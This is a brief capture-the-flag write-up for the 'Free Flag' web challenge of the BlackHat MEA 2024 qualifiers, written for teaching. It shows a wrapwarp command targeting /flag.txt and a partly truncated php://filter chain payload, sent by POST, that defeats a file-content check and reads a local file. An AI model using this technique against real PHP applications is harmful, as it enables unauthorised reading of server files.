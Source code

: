 # Free Flag Writeup

- **Category:** Web
- **Points:** 110
- **Difficulty:** Easy

## Challenge Description

Free Free

## Challenge Files

You can find the challenge files [here](https://github.com/hanzalaghayasabbasi/BlackHat-MEA-2024-Qualifiers-Write-Ups/tree/main/FreeFlag-src).

## Exploiting

To bypass the file content check, a malicious payload can be crafted using the `wrapwarp` tool. The following command generates the payload:

```bash
python3 wrapwarp.py /flag.txt "<?php" "?>" 100

Generated Payload:

php://filter/convert.base64-encode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-……………………….........
```
## Get Flag
Once the payload is generated, it is transmitted via a POST request. This payload enables the retrieval of the flag by embedding it between <?php and ?>, thereby circumventing the file content check.

![image](https://github.com/user-attachments/assets/68a070bf-cf4d-46e7-825c-ed04690981e8)
